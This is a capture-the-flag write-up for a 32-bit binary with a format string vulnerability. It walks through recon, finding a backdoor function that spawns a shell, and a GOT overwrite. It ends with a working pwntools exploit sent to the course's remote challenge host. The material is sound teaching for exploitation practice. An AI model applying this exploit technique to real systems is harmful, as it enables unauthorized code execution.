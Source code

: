 # FinalFormat

## Recon

In this challenge, we are given an executable that we must analyze and exploit.

### Protections

Executing `checksec program`, we get the following output:

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

This gives us some important pieces of information:

1. The executable's architecture is 32 bits and little-endian.
2. Partial RELRO is enabled. 
3. Stack canaries are enabled.
4. NX is enabled and, therefore, we won't be able to execute code from the stack, for instance.
5. PIE is disabled.

Partial RELRO means that the GOT comes before the BSS section in memory. This means that buffer overflows in global variables can't overwrite the GOT, however, it can still be changed.

With stack canaries enabled, we can only perform ROP attacks if we manage to leak the stack canary beforehand.

### Testing the program

By running the executable, we are prompted with the message "There is nothing to see here...".
If we, however, type something in and hit ENTER, what we typed in will be printed back.

![Normal execution of the program](/images/final-format/testing-vulnerabilities/1.png)

That means that our input is being read to a buffer and printed back. Therefore, we decided to test the possibility of a buffer overflow.
We found that the buffer is, most likely, not susceptible to buffer overflows since we typed in 110 characters, only 60 were printed back and no stack smashing was detected (due to the stack canaries).

![Testing for the possibility of a buffer overflow](/images/final-format/testing-vulnerabilities/2.png)

With buffer overflows out of the way, we tried format string vulnerabilities. Also, the challenge is named Final**Format** so it was very likely that the exploit would be based on format string vulnerabilities.

![Testing for the possibility of a format string vulnerability](/images/final-format/testing-vulnerabilities/3.png)

It worked! This is very good since, with a format string vulnerability, we are able to write to arbitrary addresses in memory. This, in conjunction with a Partial RELRO and no PIE (meaning that the base address of the GOT in execution is the same as when `readelf` is run), means that we can overwrite the addresses in the GOT very easily and, thus, when a libc function is called, jump to an arbitrary address in memory and execute that code instead. 

### Symbols

At this point, we can execute any piece of code already on the executable (can't be on the stack because of NX).
However, we don't have any piece of code that can give us a shell.

If we execute `readelf -s program`, we get the following output:

```
Symbol table '.symtab' contains 74 entries:
   Num:    Value  Size Type    Bind   Vis      Ndx Name
    ...
    23: 0804bff8     0 SECTION LOCAL  DEFAULT   23 .got
    24: 0804c000     0 SECTION LOCAL  DEFAULT   24 .got.plt
    ...
    51: 08049236    55 FUNC    GLOBAL DEFAULT   15 old_backdoor
    ...
    69: 0804926d   155 FUNC    GLOBAL DEFAULT   15 main
    ...
```

As you can see, we have the symbol `main`, which is expected. Then, we have the GOT and the GOT PLT (Procedure Linkage Table) sections at `0x0804bff8` and `0x0804c000` respectively. Finally, we have a suspicious function named `old_backdoor`, located at `0x08049236`.

Using `objdump --disassemble=old_backdoor program`, we can get the assembly code of `old_backdoor`.

```asm
08049236 <old_backdoor>:
 8049236:	f3 0f 1e fb          	endbr32
 804923a:	55                   	push   %ebp
 804923b:	89 e5                	mov    %esp,%ebp
 804923d:	53                   	push   %ebx
 804923e:	e8 2d ff ff ff       	call   8049170 <__x86.get_pc_thunk.bx>
 8049243:	81 c3 bd 2d 00 00    	add    $0x2dbd,%ebx
 8049249:	8d 83 08 e0 ff ff    	lea    -0x1ff8(%ebx),%eax
 804924f:	50                   	push   %eax
 8049250:	e8 8b fe ff ff       	call   80490e0 <puts@plt>
 8049255:	83 c4 04             	add    $0x4,%esp
 8049258:	8d 83 1b e0 ff ff    	lea    -0x1fe5(%ebx),%eax
 804925e:	50                   	push   %eax
 804925f:	e8 8c fe ff ff       	call   80490f0 <system@plt>
 8049264:	83 c4 04             	add    $0x4,%esp
 8049267:	90                   	nop
 8049268:	8b 5d fc             	mov    -0x4(%ebp),%ebx
 804926b:	c9                   	leave
 804926c:	c3                   	ret
```

As we can see, a string is printed and then a command is executed using `system`. If the command is a `/bin/sh` or something along those lines, this means that we can jump to this function in our attack to get our shell.

### Debugging

To get more information about `old_backdoor`, we'll use `gdb`, along with `gef` (a popular GDB plugin).

We will start the debugging session using `gdb program` and set a breakpoint on `main` using `b main`. After that, we'll execute the program by executing `run` inside the debug session.

![Program running inside debug session](/images/final-format/debug/1.png)

Then, we will set a breakpoint on and jump to `old_backdoor`, using `b old_backdoor` followed by `jump old_backdoor`.

![Program running old_backdoor](/images/final-format/debug/2.png)

We will now step using `ni` until we get to the `system` call.

![Stack when system is about to be executed](/images/final-format/debug/3.png)

As you can see from the stack view, the argument for this system call is `/bin/bash`, meaning that this function can be used to get a shell on the server.

Now that we know what `old_backdoor` does, we can start figuring out what address in the GOT we need to overwrite to jump to `old_backdoor`. For that, we'll restart the debug session, set a breakpoint on `main` and `run` the program.

Then, we will skip to the `printf` where our message is printed, which is located at `0x80492d4`.

![Program when printf is about to be executed](/images/final-format/debug/4.png)

Here, we will step using `ni` until we find a `call` instruction that jumps to the `plt` section (the functions in this section use the addresses from the GOT to see if the corresponding function has already been loaded and, if it has, it will jump to the address present in the GOT).

That call will be a call to `fflush@plt` at `0x80492e5`.

![Program when fflush@plt is about to be executed](/images/final-format/debug/5.png)

Here, we want to go inside the function and, as such, we'll execute `si`.

![Disassembled code inside fflush@plt](/images/final-format/debug/6.png)

As you can see, `fflush@plt`'s second instruction is `jmp    DWORD PTR ds:0x804c010`, meaning that it will jump to the address stored at `0x804c010`. That address is `0xf7dda2c0`, which is the address of libc's `fflush`. Finally, the address `0x804c010`is located in the GOT, meaning that we can overwrite it with the address of `old_backdoor`, making `fflush@plt` jump to `old_backdoor` instead of libc's implementation of `fflush`.

![GOT at the location referenced by fflush@plt](/images/final-format/debug/7.png)

## Exploitation

In order to overwrite the GOT, we can use the `FmtStr` utility in pwntools, which allows us to specify a dictionary where the keys are the addresses we want to write to and the values are the bytes we want to write to those addresses. The result is a format string which, when printed, executes those writes.

With all the information we got previously in mind, we developed the following exploit: 

```py
from pwn import *

def exec_format(payload):
    p = process("./program")
    p.recvuntil(b'...')
    p.sendline(payload)
    output = p.recvall()
    p.kill()
    return output

context.binary = "./program"

elf = ELF("./program")
fflush_ptr = elf.got["fflush"]
backdoor_addr = elf.symbols["old_backdoor"]

print("fflush_addr:", hex(fflush_ptr))
print("backdoor_addr:", hex(backdoor_addr))

autofmt = FmtStr(exec_format)
offset = autofmt.offset

writes = { fflush_ptr: backdoor_addr }
print(f"Writes: {writes}")

payload = fmtstr_payload(offset, writes)
print("Payload:", payload)
print("Payload length:", len(payload))

p = remote("ctf-fsi.fe.up.pt", 4007)
p.recvuntil(b'...')
p.sendline(payload)
p.interactive()
```

To get the flag, run this script and then execute `cat flag.txt`.

![Exploit being executed](/images/final-format/exploit.png)